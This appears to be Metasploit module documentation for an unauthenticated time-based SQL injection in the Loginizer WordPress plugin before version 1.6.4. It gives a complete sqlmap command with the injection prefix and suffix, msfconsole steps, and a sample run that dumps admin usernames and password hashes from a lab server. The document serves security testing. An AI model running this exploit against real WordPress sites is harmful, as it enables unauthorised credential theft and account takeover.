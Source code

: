 ## Vulnerable Application

Loginizer wordpress plugin contains an unauthenticated timebased SQL injection in
versions before 1.6.4.  The vulnerable parameter is in the `log` parameter.

Wordpress has forced updates of the plugin to all servers.  To test this exploit, the server
must not have a connection to the internet.

All versions can be downloaded from [wordress.org](https://wordpress.org/plugins/loginizer/advanced/)
or [1.6.3](https://downloads.wordpress.org/plugin/loginizer.1.6.3.zip)

This module slightly replicates sqlmap running as:

```
python3 sqlmap.py -u http://local.target/wp-login.php --method='POST' --data='log=&pwd=password&wp-submit=Log+In&redirect_to=&testcookie=1' -p log --prefix="', ip = LEFT(UUID(), 8), url = ( TRUE " --suffix=") -- wpdeeply" --dbms mysql --technique=T --time-sec=1 --current-db
```

## Verification Steps

1. Disconnect the server from the internet
1. Install the plugin on wordpress
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_loginizer_log_sqli`
1. Do: `set action [action]`
1. Do: `run`

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### COUNT

If Action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

## Scenarios

### Wordpress 5.4.2 with Loginizer 1.6.3 on Ubuntu 20.04 using MariaDB 10.3.22

#### List Users

```
resource (loginizer.rb)> use auxiliary/scanner/http/wp_loginizer_log_sqli
resource (loginizer.rb)> set verbose true
verbose => true
resource (loginizer.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf6 auxiliary(scanner/http/wp_loginizer_log_sqli) > set count 3
count => 3
msf6 auxiliary(scanner/http/wp_loginizer_log_sqli) > run

[*] Checking /wp-content/plugins/loginizer/readme.txt
[*] Found version 1.6.3 in the plugin
[+] Vulnerable version detected
[*] {SQLi} Executing (select group_concat(XMjgCKOLn) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) XMjgCKOLn from wp_users limit 3) ZtmrJNCuJ)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
